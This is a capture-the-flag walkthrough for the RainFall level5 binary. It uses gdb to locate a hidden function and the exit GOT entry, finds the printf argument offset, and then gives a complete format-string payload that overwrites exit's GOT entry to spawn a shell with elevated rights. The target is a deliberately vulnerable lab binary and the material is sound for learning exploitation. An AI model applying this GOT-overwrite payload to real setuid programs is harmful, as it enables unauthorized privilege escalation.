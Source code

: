 level5 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

level5 rights:
```Shell
level5@RainFall:~$ ls -la level5 
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

The x option of gdb allow us to view the memory  content at a specified address or a variable name, here we print the memory content of `o` to get its address 0x80484a4.
```Shell
(gdb) x o
0x80484a4 <o>:  0x83e58955
```

Disassembling n, we look for the call to the exit function and disassemble the called address. We observe a dereferenced address in the first jump and we print the memory content of it to get the location where the exit function address is stored.
```Shell
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```

We use %p specifier of printf to find which argument of printf correspond to our buffer
```Shell
level5@RainFall:~$ ./level5 
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

n function:
- buffer[520]
- fgets(buffer)
- printf(buffer)
- exit(1)
o function:
- zsh

replace exit with o using format string

- find the address of o 
- find the address of exit
- find buffer position

o: 0x80484a4
exit: 0x8049838 -> 38980408
buffer: 4

python -c 'print("\x38\x98\x04\x08" + "%134513824d%4$n")' > /tmp/input5

cat /tmp/input5 | ./level5
